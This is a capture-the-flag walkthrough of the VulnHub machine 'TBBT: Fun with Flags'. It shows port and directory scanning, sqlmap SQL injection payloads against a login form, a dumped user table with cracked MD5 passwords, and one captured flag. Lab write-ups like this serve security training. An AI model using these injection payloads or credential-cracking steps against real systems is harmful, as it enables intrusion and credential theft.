

# TBBT: Fun with Flags — VulnHub

## 1. Identification

| Field            | Value                                                                  |
|------------------|------------------------------------------------------------------------|
| Machine name     | TBBT: Fun with Flags                                                   |
| Platform         | VulnHub                                                                |
| Theme            | The Big Bang Theory — fictional company BigPharmaCorp                  |
| Difficulty       | Easy/Medium                                                            |
| Target IP (lab)  | 10.0.0.20                                                              |
| Goal             | Capture 7 flags, one per character (Penny, Bernadette, Sheldon, etc.)  |

Narrative hint preserved in the local files:

```
Penny the IT department from my Pharmaceutical company opened you an account in the
B2B website. You need to go there ASAP and learn our drugs for your interview
tomorrow.

Username: penny69
Password: cant post it here as sheldon said. you know the password. you use it
everywhere.

SHELDON DONT CHANGHE IT AGAIN OK!?!?!
THIS IS THE ONLY PASSWORD I CAN REMEMBER
wifipassword: pennyisafreeloader
```

> Classic password-reuse hint: `pennyisafreeloader` applied to other contexts (B2B, FTP, SSH, etc.).

## 2. Initial reconnaissance

```bash
nmap -A -p- 10.0.0.20
```

Result recorded in the local files:

```
Host is up (0.16s latency).
PORT   STATE    SERVICE VERSION
21/tcp open     ftp     vsftpd 3.0.3
22/tcp open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))
Running: Linux 3.X|4.X
```

## 3. Enumeration

### 3.1 Gobuster — directory discovery

```bash
gobuster dir -u http://10.0.0.20 \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -s 200,301
```

```
index.html           (Status: 200)
javascript           (Status: 301)
music                (Status: 301)
phpmyadmin           (Status: 301)
private              (Status: 301)
robots.txt           (Status: 200)
```

### 3.2 robots.txt — additional hints

```
User-Agent: *
Disallow:
Disallow: /howard
Disallow: /web_shell.php
Disallow: /backdoor
Disallow: /rootflag.txt
```

### 3.3 Gobuster on /private/

```bash
gobuster dir -u http://10.0.0.20/private/ \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html
```

```
.hta / .htaccess / .htpasswd   → 403
css                             → 301
index.php                       → 200
login.php                       → 200
```

### 3.4 Login page

At `http://10.0.0.20/private/login.php` the page reads "Login Page - Login using the credentials provided by IT department" (BigPharmaCorp):

Figure 1 — `http://10.0.0.20/private/login.php` — authentication form for the "BigPharmaCorp" B2B portal (The Big Bang Theory theme).



> CTF shortcut: in the local hints, the password Penny uses everywhere is `pennyisafreeloader`. Direct login attempt with `penny69:pennyisafreeloader` — actual behavior depends on the form implementation. Additionally, the application is vulnerable to SQL injection on the form's `searchitem` parameter, confirmed by `sqlmap`.

## 4. Exploitation — SQLi with sqlmap

```bash
sqlmap -u "http://10.0.0.20/private/login.php" \
  --data="searchitem=test" --dbs --batch
```

Preserved output (detected parameters and payloads):

```
Parameter: searchitem (POST)
   Type: boolean-based blind
   Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
   Payload: searchitem=-8808' OR 3588=3588#

   Type: error-based
   Title: MySQL >= 5.1 AND error-based ... (EXTRACTVALUE)
   Payload: searchitem=test' AND EXTRACTVALUE(1387,CONCAT(0x5c,...))-- PuYV

   Type: time-based blind
   Payload: searchitem=test' AND (SELECT 8223 FROM (SELECT(SLEEP(5)))ftEy)-- ZLYA

   Type: UNION query
   Title: MySQL UNION query (NULL) - 5 columns
```

Discovered databases:

```
[*] bigpharmacorp
[*] information_schema
```

Tables in `bigpharmacorp`:

```
+----------+
| products |
| users    |
+----------+
```

Dump of the `users` table (with automatic MD5 hash cracking):

```
+----+------------+----------------------------------------------+------------+
| id | fname      | password                                     | username   |
+----+------------+----------------------------------------------+------------+
| 1 | josh        | 3fc0a7acf087f549ac2b266baf94b8b1 (qwerty123) | admin      |
| 2 | bob         | 8cb1fb4a98b9c43b7ef208d624718778             | bobby      |
| 3 | penny       | cafa13076bb64e7f8bd480060f6b2332             | penny69    |
| 4 | dimitris    | 05d51709b81b7e0f1a9b6b4b8273b217 (souvlaki) | mitsos1981 |
| 5 | alice       | e146ec4ce165061919f887b70f49bf4b             | alicelove |
| 6 | bernadette | dc5ab2b32d9d78045215922409541ed7 (howard)     | bernadette |
+----+------------+----------------------------------------------+------------+
```

Preserved key findings:

```
PASSWORD FOUND!!!!: pw == astronaut

cracked: 'howard'    → user 'bernadette'
cracked: 'qwerty123' → user 'admin'
cracked: 'souvlaki' → user 'mitsos1981'
```

The `description` row for user `bernadette` contains the flag:

```
FLAG-bernadette{f42d950ab0e966198b66a5c719832d5f}
```

## 5. Post-exploitation

With the extracted credentials:

- `admin:qwerty123` → enters the B2B panel → additional flags embedded in authenticated pages.
- `bernadette:howard` → likely reuse on FTP/SSH.
- `penny69:astronaut` or `penny69:pennyisafreeloader` → try on exposed services (FTP `vsftpd 3.0.3`, SSH).

The CTF exposes `Disallow: /howard`, `/backdoor`, `/web_shell.php` → directories/files directly exploitable once authenticated.

> Preserved detail: the classic CTF writeup shows a FLAG-penny inside a `db_config.php` file in `/private/`, with `user=bigpharmacorp pass=weareevil` — useful to pivot via phpMyAdmin (`/phpmyadmin/` was open).

## 6. Privilege escalation

The "Fun with Flags" CTF doesn't focus on classic Linux escalation — the challenge is to find the 7 flags by character (Penny, Bernadette, Sheldon, Howard, Raj, Leonard, Amy). Typical paths described in public writeups:

- FTP with `vsftpd 3.0.3` authenticated → flags in personal directories.
- WordPress in a subdirectory → flags in private posts.
- `/web_shell.php` already present (a door left by the author) or PHP upload via the admin panel → `www-data` shell.
- `sudo -l` as a character user with a specific binary → root.

> This detail was inferred from the local files and external writeups.

## 7. Flags

| Character                                 | Value preserved in the local files                                            |
|-------------------------------------------|-------------------------------------------------------------------------------|
| Bernadette                                | `FLAG-bernadette{f42d950ab0e966198b66a5c719832d5f}`                          |
| Penny / Sheldon / Howard / Raj / Leonard / Amy | Not captured in the local files. There are 7 flags total — the full capture was not preserved. |

## 8. Attack summary

1. Nmap → FTP/SSH/HTTP open (10.0.0.20).
2. Gobuster → `/private/`, `/phpmyadmin/`, `robots.txt` reveals `/howard`, `/backdoor`, `/web_shell.php`, `/rootflag.txt`.
3. Local hint: reused password `pennyisafreeloader`.
4. `login.php` form in `/private/` vulnerable to SQLi on the `searchitem` parameter.
5. `sqlmap` dump of the `bigpharmacorp.users` DB → MD5 hashes.
6. Automatic crack: `admin:qwerty123`, `bernadette:howard`, `mitsos1981:souvlaki`.
7. `FLAG-bernadette` extracted directly from the `description` column.
8. Login `admin:qwerty123` → panel access → other characters' flags.
9. (Typical CTF pattern) `/web_shell.php` or panel upload → `www-data` shell → flags per home directory.
10. Final privesc via reused credentials or `sudo -l`.

## 9. Technical lessons

- Subdirectory enumeration reveals sensitive files named in `robots.txt` (classic anti-pattern).
- SQL injection on the search field (`searchitem`) — boolean / error / time / UNION payloads all work.
- Unsalted MD5 + small dictionary → immediate crack.
- Password reuse across DB, FTP, SSH, and WiFi.
- Flags embedded in DB columns (the `description` field) is a typical vector in themed CTFs.

## 10. References consulted

- TBBT: Fun with Flags ~ VulnHub (official entry)
- TBBT: 2 – FunWithFlags ~ VulnHub
- TBBT 1: Walkthrough — Sudeepto Roy, Medium
- TBBT: Fun with flags Walkthrough — A-s4t0sh, Medium
- TBBT: Fun with Flags — InfoSec Adventures
- TBBT FunWithFlags — emaragkos Blog
- TBBT: FUNWITHFLAGS — Infosec Institute
